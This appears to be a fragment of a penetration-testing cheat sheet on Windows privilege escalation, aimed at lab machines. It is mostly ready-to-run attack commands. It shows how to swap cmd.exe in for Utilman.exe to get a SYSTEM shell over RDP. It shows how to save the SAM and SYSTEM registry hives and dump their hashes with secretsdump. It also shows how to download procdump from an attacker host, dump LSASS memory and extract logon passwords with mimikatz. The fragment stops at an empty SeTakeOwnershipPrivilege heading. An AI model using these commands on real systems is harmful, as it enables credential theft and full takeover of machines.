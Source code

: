 Rename the file:

```bash
ren Utilman.exe Utilman.old
ren cmd.exe Utilman.exe
```

Connect via rdp:

```bash
rdesktop $IP
```

Press windows + u to start a CMD session as NT authority/system.

#### SeManageVolumeExploit

- [Esempio macchina su Proving Groung](https://systemweakness.com/proving-grounds-practise-active-directory-box-access-79b1fe662f4d)
- https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

#### SeBackupPrivilege

- [Esempio macchina HTB](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html)
- https://github.com/giuliano108/SeBackupPrivilege

Copying SAM and SYSTEM files to temp folder:

```bash
reg save hklm\sam c:\Temp\sam  
reg save hklm\system c:\Temp\system
```

Transferring files to kali machine and using impacket-secretsdump:

```bash
impacket-secretsdump -system system -sam sam local
```

#### SeDebugPrivilege

- [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
- [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)

```bash
iwr -uri http://$KALI_IP:9999/windows/procdump/procdump.exe -Outfile procdump.exe
iwr -uri http://$KALI_IP:9999/windows/procdump/procdump64.exe -Outfile procdump.exe

procdump.exe -accepteula -ma lsass.exe lsass.dmp

.\mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

#### SeTakeOwnershipPrivilege
